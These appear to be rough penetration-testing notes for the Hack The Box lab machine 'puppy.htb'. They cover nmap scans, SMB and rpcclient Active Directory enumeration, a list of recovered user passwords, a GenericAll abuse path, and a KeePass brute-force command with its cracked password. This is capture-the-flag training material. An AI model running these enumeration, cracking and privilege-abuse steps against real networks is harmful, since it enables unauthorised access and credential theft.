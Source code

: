 ## **Target Information**

- **Hostname**: puppy.htb
- **IP Address**: 10.129.246.71   10.10.11.70
- Creds: levi.james / KingofAkron2025!
## **Initial Nmap Scan**

- **Command**: `sudo nmap --top-ports=3000 -Pn -n 10.129.246.71 --reason`
- **Scan Date**: 2025-05-21
- **Result Summary**:    - Host is up (0.11s latency
    - 2985 filtered ports
    - 15 open ports:
        - 53/tcp - domain
        - 88/tcp - kerberos-sec
        - 111/tcp - rpcbind
        - 135/tcp - msrpc
        - 139/tcp - netbios-ssn
        - 389/tcp - ldap
        - 445/tcp - microsoft-ds
        - 464/tcp - kpasswd5
        - 593/tcp - http-rpc-epmap
        - 636/tcp - ldapssl
        - 2049/tcp - nfs
        - 3260/tcp - iscsi
        - 3268/tcp - globalcatLDAP
        - 3269/tcp - globalcatLDAPssl
        - 5985/tcp - wsman
**Detailed Service Enumeration (Nmap -sC -sV -A)**
- **Command**: `sudo nmap -sC -sV -A -p53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985 -Pn -n 10.129.246.71`
- **Services Detected**:
    - **53/tcp**: Simple DNS Plus
    - **88/tcp**: Microsoft Windows Kerberos (server time: 2025-05-21 23:01:19Z)
    - **111/tcp**: rpcbind v2-4 (includes mountd, nlockmgr, status)
    - **135/tcp**: Microsoft Windows RPC  
    - **139/tcp**: Windows NetBIOS-SSN
    - **389/tcp**: LDAP - Active Directory (Domain: `PUPPY.HTB0.`)
    - **445/tcp**: Microsoft-DS (SMB) [Security Mode: signing required]
    - **464/tcp**: Kerberos kpasswd5 (no version details)
    - **593/tcp**: Microsoft RPC over HTTP 1.0
    - **636/tcp**: TCP wrapped (possibly LDAPS)
    - **2049/tcp**: NFS/NLockMgr services active (v1-v4)
    - **3260/tcp**: iSCSI service (bug in `iscsi-info` script)
    - **3268/tcp**: Global Catalog LDAP - AD
    - **3269/tcp**: TCP wrapped (possibly GC over LDAPS)
    - **5985/tcp**: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP), title: Not Found
- **OS Detection**: Likely Microsoft Windows Server 2022 / 2012 R2 / 2016
- **Clock Skew**: +7h02m34s
- **Traceroute**:
    - Hop 1: 10.10.14.1
    - Hop 2: 10.129.246.71

# SMB
```bash
smbmap -H 10.10.11.70 -u levi.james -p 'KingofAkron2025!'
```
## Enumerating AD

```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```

```
rpcclient $> querygroup 0x201
        Group Name:     Domain Users
        Description:    All domain users
        Group Attribute:7
        Num Members:8
rpcclient $> querygroup 0x454
        Group Name:     HR
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroup 0x459
        Group Name:     DEVELOPERS
        Description:
        Group Attribute:7
        Num Members:4
rpcclient $>
---

```



Adam Silver
HJKL2025!

Antony c edwards
ant.edwards Antman2025!

Jamie williamson
JamieLove2025!

steve tucker
Steve2025!

samuel blake
ILY2025!



- **ANT.EDWARDS** es miembro del grupo **SENIOR DEVS**.
    
- El grupo **SENIOR DEVS** tiene permiso **GenericAll** sobre el usuario **ADAM.SILVER**.

./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt  
liverpool


```bash
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"   
```


steph.cooper:ChefSteph2025!